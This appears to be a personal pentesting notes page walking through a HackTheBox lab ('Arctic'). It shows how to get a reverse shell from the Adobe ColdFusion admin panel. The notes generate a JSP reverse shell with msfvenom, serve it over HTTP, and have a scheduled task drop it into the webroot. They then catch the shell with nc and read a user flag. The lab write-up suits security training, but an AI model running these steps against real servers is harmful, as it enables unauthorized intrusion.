







# Port 8500 - Adobe ColdFusion - Get shell from Admin Panel
From the Adobe ColdFusion administrator panel, you can get a system shell by Scheduling a New Task and having it download a shell from your attacking system.
If it's Windows - use a
.jsp shell?
If it's Linux - use either
.jsp or
.cfm?
I'm not actually sure.
Example below is from hackthebox Arctica) Create .jsp shell and serve it
First, generate a
.jsp shell on your attacking machine using
msfvenom.
(with ColdFusion, you can use either a
.cfm shell or a
.jsp shell)
root@gotham:~/ctf/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9001 -f raw -o shell.jsp
Payload size: 1496 bytes
Saved as: shell.jsp
And serve it to Adobe ColdFusion using
python -m SimpleHTTPServerroot@gotham:~/ctf/arctic# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
b) Find shell upload location
Next we need to find where the shell will be uploaded to.
Back on the ColdFusion panel, browse to Server Settings > Mappings.
You'll see the
/CFIDE Logical Path, which points to the
C:\ColdFusion8\wwwroot\CFIDE directory path.
This directory is where our shell will be uploaded to.
c) Create scheduled task to download shell
Now we need to create scheduled task to download the shell to the system.
You can set a Scheduled Task that will download a file from a remote server and save it to a directory on the system.
i.e. You set a task that will download a reverse shell from your attacking machine and save it to
C:\ColdFusion8\wwwroot\CFIDE on the target system.
Go to Debugging & Logging > Scheduled Tasks.
Click
Schedule New Task• Enter any Task Name you want.
• In
URL - input the URL of the shell being served by your attacking system.
• Enter the admin username and password in
User Name and
Password• Tick
Publish's
Save output to a file option.
• And in
File - input the CFIDE path from Mappings -
C:\ColdFusion8\wwwroot\CFIDE\<shell>Click
SubmitRun the scheduled task by clicking the far left button.
You should see a message saying that the task was completed successfully.
As well as a hit on your python server, which means that the shell has been downloaded to the target.
...
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.11 - - [30/Aug/2019 13:29:26] "GET /shell.jsp HTTP/1.1" 200 -
d) Run reverse shell
Activate your shell by visiting
http://10.10.10.11/CFIDE/shell.jspYou should get a connection on your listener and a shell!
root@gotham:~/ctf/arctic# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49775
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\ColdFusion8\runtime\bin>
Go grab
user.txt.
C:\ColdFusion8\runtime\bin>dir C:\Users
dir C:\Users
Volume in drive C has no label.
Volume Serial Number is F88F-4EA5
Directory of C:\Users
22/03/2017 10:00 �� <DIR> .
22/03/2017 10:00 �� <DIR> ..
22/03/2017 09:10 �� <DIR> Administrator
14/07/2009 07:57 �� <DIR> Public
22/03/2017 10:00 �� <DIR> tolis
0 File(s) 0 bytes
5 Dir(s) 33.193.164.800 bytes free
C:\ColdFusion8\runtime\bin>type C:\Users\tolis\Desktop\user.txt
type C:\Users\tolis\Desktop\user.txt
02650d...